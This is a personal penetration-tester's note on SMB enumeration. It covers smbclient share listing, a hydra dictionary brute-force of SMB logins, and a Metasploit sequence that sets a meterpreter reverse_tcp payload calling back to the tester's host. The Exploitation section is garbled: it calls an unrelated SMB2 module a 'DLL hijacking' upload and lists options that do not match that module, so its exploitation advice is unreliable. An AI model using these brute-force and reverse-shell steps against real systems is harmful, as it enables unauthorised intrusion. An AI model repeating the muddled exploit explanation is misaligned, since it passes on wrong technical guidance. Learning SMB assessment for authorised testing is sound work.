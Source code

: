 ```yaml
---
creation date: March 6th 2023
last modified date: March 6th 2023
aliases: []
tags: #📖
---
```


Primary Categories: [[03 - Network Service Discovery]]
Secondary Categories: 
Links: [[]] 
Search Tag: #📖  

---
# SMB Enumeration (Server Message Block)
---
## Introduction

SMB (Server Message Block) is a protocol used for sharing files, printers, and other resources between computers on a network. As a penetration tester, it's important to test the security of SMB to identify vulnerabilities that could be exploited by attackers. In this guide, we'll cover the key areas to focus on when testing SMB.

## Enumeration

The first step in testing SMB is to enumerate the available shares on the target system. This can be done using tools like `smbclient` or `enum4linux`. For example, you can use `smbclient` to list the available shares on a target system as follows:

```bash
smbclient -L $IP
```

Once you have identified the available shares, you should attempt to connect to them using known credentials or by attempting to guess weak passwords. For example, you can connect to a share using `smbclient` as follows:

``` bash
smbclient //<target IP address>/<share name> -U <username>
```

If you don't have valid credentials, you can attempt to brute-force the SMB login using tools like `hydra` or `medusa`. For example, you can use `hydra` to perform a dictionary attack against the SMB login as follows:

```bash
hydra -L <usernames file> -P <passwords file> smb://<target IP address>
```

## Exploitation

Once you have gained access to an SMB share, you can look for ways to escalate your privileges or access sensitive information. One common technique is to look for misconfigured file permissions that allow you to read or write files that you shouldn't have access to. For example, you can use `smbclient` to list the files in a share as follows:

```bash
smbclient //<target IP address>/<share name> -U <username> -c "ls"
```

You can also try to execute arbitrary code on the target system by uploading a malicious DLL file and forcing the system to load it using a technique called "DLL hijacking." For example, you can use `metasploit` to generate a malicious DLL file and upload it to a writable SMB share as follows:

```bash
use exploit/windows/smb/smb2_negotiate_func_index 
set RHOSTS <target IP address> 
set SMBFOLDER <share name> 
set SMBSHARE <share name> 
set RHOST <target IP address> 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST <your IP address> exploit
```

Once the DLL file is uploaded, you can use `metasploit` to execute it on the target system and gain a meterpreter shell.



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: March 6th 2023 (09:51 am) 
Last Modified Date: March 6th 2023 (09:51 am)
